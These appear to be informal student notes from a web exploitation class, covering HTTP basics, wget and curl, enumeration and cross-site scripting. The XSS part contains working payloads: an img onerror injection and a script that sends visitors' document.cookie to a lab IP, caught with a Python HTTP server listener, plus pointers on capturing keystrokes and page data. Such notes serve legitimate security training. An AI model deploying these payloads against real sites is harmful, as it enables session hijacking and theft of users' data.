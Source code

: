 ## web-exploitation.html ##  ## BURP SWEEP??? ##
----------------------------------------------------------
*slide deck notes*

Server/Client Relationship
Synchronous communications between user and services

Not all data is not returned, client only receives what is allowed 

Request/Response:: Various tools to view:: tcpdump  wireshark  Developer Console

HTTP Methods:: A Select Few: GET POST HEAD PUT  https://tools.ietf.org/html/rfc2616

HTTP Fields:: User-Agent  Referer  Cookie  Date  Server  Set-Cookie

http://10.50.x.x/path/pathdemo.php?myfile=demo1 <<< change 1 to another number to interact with the webpage 

Wget 
-------
wget -r -l2 -P /tmp ftp://ftpserver/

wget --save-cookies cookies.txt --keep-session-cookies --post-data 'user=1&password=2' https://website

wget --load-cookies cookies.txt -p https://website/interesting/article.php

curl 
----
Supports more protocols vs Wget, such as SCP & POP3

curl 'https://web.site/submit.php' -H 'Cookie: name=123; settings=1,2,3,4,5,6,7' --data 'name=Stan' | base64 -d > item.png


JavaScript (JS)
---------------------
Coded as .JS files, or in-line of HTML

<script>
function myFunction() {
    document.getElementById("demo").innerHTML = "Paragraph changed.";
}
</script>

<script src="https://www.w3schools.com/js/myScript1.js"></script>


Enumeration
--------------------------
ROBOTS.TXT  Legitimate surfing 

Tools:: NSE scripts  Nikto  Burp suite (outside class)

**/var/www/html ** how many directories start here 


Cross-Site Scripting (XSS) Overview
-------------------------------------
Insertion of arbitrary code into a webpage, that executes in the browser of visitors

Unsanitized GET, POST, and PUT methods allow JS to be placed on websites

Often found in forums that allow HTML

Reflected XSS
-------------------
Below is what you see, but the server will decode as name=abc123
http://example.com/page.php?name=dXNlcjEyMw


Stored XSS
-----------------------
<img src="http://invalid" onerror="window.open('http://10.50.XX.XX:8000/ram.png','xss','height=1,width=1');">


Useful JavaScript Components
------------------------------
<script>alert('XSS');</script>

## python3 -m http.server ##

this creates a hole for information to go into when i inject the below script 

## <script>document.location="https://10.50.29.68:80?"+document.cookie;</script> ##

^^^^^ input this into a body function ^^^^

Capturing Cookies

document.cookie

Capturing Keystrokes

bind KEYDOWN and KEYUP

Capturing Sensitive Data

document.body.innerHTML

use this then 

take the cookie and put it here 


Capturing Cookies :: document.cookie

